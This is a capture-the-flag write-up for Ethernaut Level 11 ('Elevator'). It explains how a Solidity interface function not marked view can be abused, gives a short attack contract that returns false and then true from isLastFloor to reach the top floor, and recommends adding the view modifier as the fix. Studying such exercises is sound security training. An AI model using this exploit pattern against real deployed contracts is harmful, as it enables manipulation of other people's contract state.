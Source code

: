 ```yaml
---
title: Level 11 - Elevator
slug: level-11
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut11.svg
---
```


## Objectives

1. Make the elevator go to the top floor. (Give the `floor` variable the same value as the `top` variable)

## Vulnerabilities

### Interface function not using pure or view

Functions in interfaces that are not `pure` or `view` can be used to modify state in an unintended way. In this level,
we use this to make the function `isLastFloor` return different values based on some state.

## Exploit

1. Write and deploy an attack contract like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "Elevator.sol";

contract ElevatorHack is Building  {
    Elevator target;
    bool alreadyCalled;

    constructor(address _targetAddress) {
        target = Elevator(_targetAddress);
    }

    function isLastFloor(uint) override external returns(bool){
        if(alreadyCalled){
            return true;
        } else {
            alreadyCalled = true;
            return false;
        }
    }

    function attack(uint _floor) external {
        target.goTo(_floor);
    }
}
```

2. Call the `attack` function with and uint as argument to reach the top floor.

## Suggested mitigation

1. Add the `view` modifier to the `isLastFloor` interface function.

## Further reading

- View functions <ExternalLink href={"https://docs.soliditylang.org/en/develop/contracts.html#view-functions"} />

